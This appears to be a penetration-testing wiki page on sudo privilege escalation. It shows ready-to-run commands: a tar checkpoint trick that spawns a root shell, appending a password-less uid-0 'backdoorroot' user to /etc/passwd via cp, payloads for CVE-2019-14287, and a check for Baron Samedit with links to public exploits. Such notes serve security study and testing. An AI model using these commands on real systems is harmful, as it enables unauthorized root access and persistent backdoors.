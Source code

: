 # Sudo

![Sudo Config](../../assets/sudoers_config.png)
### Default configurations
The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following (default config for a new sudoer).

```bash
# Format is
User john may run the following commands on johncomputer:
 (ALL : ALL) ALL
```

For instance, this configuration allows the `john` user to run any privileged command as long as `john`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo `.

### Living off the land
While the SUDO configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called Living off the land.

```bash
User john may run the following commands on johnscomputer:
 (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `john` to execute `/bin/tar` as root as long as `john`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the Living off the land note.

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### CVE-2019-14287 (#-1)
With SUDO running version < 1.8.28, an attacker in control of a "runas ALL" sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. 

Exploiting the bug requires sudo privileges and being able to run commands with an arbitrary user ID. This means the user's sudoers entry has to have the special value `ALL` in the "runas" specifier (the yellow and green parts in [the doodle above](sudo.md#theory)).

Vulnerable users can be found with the two commands below

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

The vulnerability can be exploited with one of the following payloads

```bash
sudo -u#-1 sh -p
sudo -u#4294967295 sh -p
sudo -u#$((0xffffffff)) sh -p
```

> [!TIP]
> Some technical details to the vulnerability
> 
> Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` (or its 32-bit unsigned equivalent `4294967295`), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.
> 
> Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.
> 
> More info can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)

### CVE-2021-3156 (Baron Samedit)

With SUDO running version < 1.9.5p2, a Heap-based Buffer Overflow allows for privilege escalation to root via `sudoedit -s` and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, the following command can be run as a non-root user.

```bash
sudoedit -s /
```

Patched versions will throw a `usage:` help message while vulnerable ones will throw the following `sudoedit:` error.

```
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

This vulnerability can be exploited with [this exploit](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot), or [this one](https://github.com/worawit/CVE-2021-3156).

More info about this vulnerability can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) and [here](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

## Resources
[https://gtfobins.github.io/#+sudo](https://gtfobins.github.io/#+sudo)

[https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4](https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4)

[https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)